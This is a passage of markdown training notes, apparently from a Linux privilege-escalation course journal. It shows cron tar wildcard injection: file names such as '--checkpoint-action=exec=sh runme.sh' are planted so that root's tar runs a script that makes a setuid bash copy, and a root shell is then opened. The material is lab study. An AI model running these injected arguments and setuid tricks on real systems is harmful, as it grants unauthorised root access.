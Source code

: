 ## Escalation via Cron Wildcards

For this example, we will use `tar` as specified in the `/etc/crontab` file:

[![Privilege Escalation](https://github.com/M1st3r3/CyberSec_Journey/raw/main/TCM-Academy/Lin_Priv_Esca/Image/44.png)](https://github.com/M1st3r3/CyberSec_Journey/blob/main/TCM-Academy/Lin_Priv_Esca/Image/44.png)

To exploit this vulnerability, execute the following commands:

```shell
echo 'cp /bin/bash /tmp/bash3; chmod +s /tmp/bash3' > /home/user/runme.sh
chmod +x /home/user/runme.sh
touch '/home/user/--checkpoint=1'
touch '/home/user/--checkpoint-action=exec=sh runme.sh'

/tmp/bash3 -p
```

[![Privilege Escalation](https://github.com/M1st3r3/CyberSec_Journey/raw/main/TCM-Academy/Lin_Priv_Esca/Image/45.png)](https://github.com/M1st3r3/CyberSec_Journey/blob/main/TCM-Academy/Lin_Priv_Esca/Image/45.png)

## Privilege Escalation via File Overwrite

